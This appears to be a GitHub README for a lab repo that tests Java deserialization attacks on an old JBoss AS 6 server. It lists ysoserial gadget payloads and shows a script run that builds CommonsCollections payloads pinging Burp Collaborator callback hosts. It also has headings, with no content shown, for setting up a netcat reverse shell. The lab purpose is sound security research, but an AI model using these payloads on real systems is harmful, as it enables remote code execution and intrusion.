








# jbossas6

Testing deserialization attacks with old JBoss AS server

<!-- TOC -->

-   [jbossas6](#jbossas6)
-   [Screenshots](#screenshots)
    -   [DNS Test](#dns-test)
    -   [Sleep Test](#sleep-test)
    -   [CPU Test](#cpu-test)
    -   [Ping RCE Test with ysoserial](#ping-rce-test-with-ysoserial)
-   [Reverse Shell](#reverse-shell)
    -   [Download Netcat](#download-netcat)
    -   [Change Permissions](#change-permissions)
    -   [Setup Simple Reverse Shell](#setup-simple-reverse-shell)
    -   [Shell Test](#shell-test)
-   [Ref](#ref)
    -   [Ysoserial Payloads](#ysoserial-payloads)
    -   [Prepare test payloads](#prepare-test-payloads)

<!-- /TOC -->

# Screenshots

## DNS Test



## Sleep Test



## CPU Test



## Ping RCE Test with ysoserial

Works with CommonCollection5 and CommonCollection6.



# Reverse Shell

## Download Netcat



## Change Permissions



## Setup Simple Reverse Shell



## Shell Test



# Ref

## Ysoserial Payloads

````bash
$ java -jar ysoserial.jar
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
  Available payload types:
     Payload             Authors                     Dependencies
     -------             -------                     ------------
     BeanShell1          @pwntester, @cschneider4711 bsh:2.0b5
     C3P0                @mbechler                   c3p0:0.9.5.2, mchange-commons-java:0.2.11
     Clojure             @JackOfMostTrades           clojure:1.8.0
     CommonsBeanutils1   @frohoff                    commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2
     CommonsCollections1 @frohoff                    commons-collections:3.1
     CommonsCollections2 @frohoff                    commons-collections4:4.0
     CommonsCollections3 @frohoff                    commons-collections:3.1
     CommonsCollections4 @frohoff                    commons-collections4:4.0
     CommonsCollections5 @matthias_kaiser, @jasinner commons-collections:3.1
     CommonsCollections6 @matthias_kaiser            commons-collections:3.1
     FileUpload1         @mbechler                   commons-fileupload:1.3.1, commons-io:2.4
     Groovy1             @frohoff                    groovy:2.3.9
     Hibernate1          @mbechler
     Hibernate2          @mbechler
     JBossInterceptors1  @matthias_kaiser            javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     JRMPClient          @mbechler
     JRMPListener        @mbechler
     JSON1               @mbechler                   json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1      @matthias_kaiser            javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     Jdk7u21             @frohoff
     Jython1             @pwntester, @cschneider4711 jython-standalone:2.5.2
     MozillaRhino1       @matthias_kaiser            js:1.7R2
     MozillaRhino2       @_tint0                     js:1.7R2
     Myfaces1            @mbechler
     Myfaces2            @mbechler
     ROME                @mbechler                   rome:1.0
     Spring1             @frohoff                    spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
     Spring2             @mbechler                   spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
     URLDNS              @gebl
     Vaadin1             @kai_ullrich                vaadin-server:7.7.14, vaadin-shared:7.7.14
     Wicket1             @jacob-baines               wicket-util:6.23.0, slf4j-api:1.6.4
     ```
````

## Prepare test payloads

```bash
$ ./prep.sh
+ URL=k5qpre6deprzdh9a45e0l2ev6mcc01.burpcollaborator.net
+ PAYLOAD=CommonsCollections5
+ FILE=payload-CommonsCollections5.bin
+ echo -e '\n-- Creating test payload using CommonsCollections5 and saving it to payload-CommonsCollections5.bin...'

-- Creating test payload using CommonsCollections5 and saving it to payload-CommonsCollections5.bin...
+ java -jar ysoserial.jar CommonsCollections5 'ping -c 1 k5qpre6deprzdh9a45e0l2ev6mcc01.burpcollaborator.net'
+ URL=8bkdx2c1kdxnj5fyatkorqkjcai16q.burpcollaborator.net
+ PAYLOAD=CommonsCollections6
+ FILE=payload-CommonsCollections6.bin
+ echo -e '\n-- Creating test payload using CommonsCollections6 and saving it to payload-CommonsCollections6.bin...'

-- Creating test payload using CommonsCollections6 and saving it to payload-CommonsCollections6.bin...
+ java -jar ysoserial.jar CommonsCollections6 'ping -c 1 8bkdx2c1kdxnj5fyatkorqkjcai16q.burpcollaborator.net'
```
